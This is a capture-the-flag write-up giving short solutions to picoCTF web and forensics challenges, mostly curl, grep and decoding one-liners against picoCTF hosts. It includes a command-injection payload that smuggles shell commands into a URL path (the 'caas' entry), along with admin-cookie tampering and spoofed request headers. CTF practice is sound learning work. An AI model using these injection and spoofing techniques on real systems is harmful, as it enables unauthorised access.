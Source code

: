 # :robot: - where are the robots - `4`
```sh
$ curl http://jupiter.challenges.picoctf.org:36474/robots.txt
. . .
User-agent: *
Disallow: /_.html
. . .

$ curl http://jupiter.challenges.picoctf.org:36474/_.html
```

# :female_detective: - Insp3ct0r - `18`
```r
#!/bin/bash

alias cmd='grep -i flag | sed "s/^.*flag: //" | sed "s/ .*$//" '
url='https://jupiter.challenges.picoctf.org/problem/41511'

curl -s ${url}/index.html | cmd
curl -s ${url}/mycss.css | cmd
curl -s ${url}/myjs.js | cmd
```
[script](https://github.com/nuoxoxo/writeups/blob/main/scripts/pico_insp3ct0r.sh)

# :wood: - logon - `46`
- in chrome do `chrome://flags`
- set Partitioned cookies to enable
- relaunch and set admin cookie to true 

# :thread: - dont-use-client-side - `66`
```r
$ curl http://jupiter.challenges.picoctf.org:37821 | grep substring 
```

# :question: - who are you - `142`
```r
# HTTP Requests for Comments (RFC)

$ curl -H "user-agent: PicoBrowser" \
-H "referer: mercury.picoctf.net:34588" \
-H "date: 2018" 
-H "DNT: 1" \
-H "origin: sweden" \
-H "x-forwarded-for: 31.44.224.0" \
-H "accept-language: sv-swe" \
http://mercury.picoctf.net:34588
```

# :carrot: - Mod 26 - `144`
```sh
# ROT13
$ echo _ | tr 'n-za-mN-ZA-M' 'a-zA-z'

# or alternatively
$ echo _ | tr "A-Za-z" "N-ZA-Mn-za-m"

```

# :accept: - Some Assembly Required 1 - `152`
###### hint: path in script

# :hungary: - scavenger hunt - `161`
```r
#!/bin/bash

alias cmd='grep -i part | sed "s/^.*: //" | sed "s/ .*$//" '
url='http://mercury.picoctf.net:55079'

curl -s ${url} | cmd
curl -s ${url}/mycss.css | cmd
curl -s ${url}/robots.txt | cmd
curl -s ${url}/.htaccess | cmd
curl -s ${url}/.DS_Store | cmd
```
[script](https://github.com/nuoxoxo/writeups/blob/main/scripts/pico_scavenger_hunt.sh)

###### edited from
```sh
#!/bin/bash

curl -s -n http://mercury.picoctf.net:55079 | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
curl -s http://mercury.picoctf.net:55079/mycss.css | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
curl -s http://mercury.picoctf.net:55079/robots.txt | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
curl -s http://mercury.picoctf.net:55079/.htaccess | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
curl -s http://mercury.picoctf.net:55079/.DS_Store | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
```

# :snake: - Python Wrangling - `166`
```scala
$ wget _ _ _ && cat pw.txt | python3 ende.py -d flag.txt.en
```

# :baseball: - login - `200`
###### hint: base64

# :cow: - caas - `202`
```sh
$ curl "https://caas.mars.picoctf.net/cowsay/pwd;ls"
$ curl "https://caas.mars.picoctf.net/cowsay/xxx;cat f*"
```

[github flavor emoji list](https://gist.github.com/rxaviers/7360908)

# :rainbow_flag: - wave a flag - `170`
```sh
$ strings warm | grep pico
```

# :information_source: - information - `186`
```scala
$ exiftool cat.jpg | grep -i license | sed "s/^.*: //" | base64 -d
```
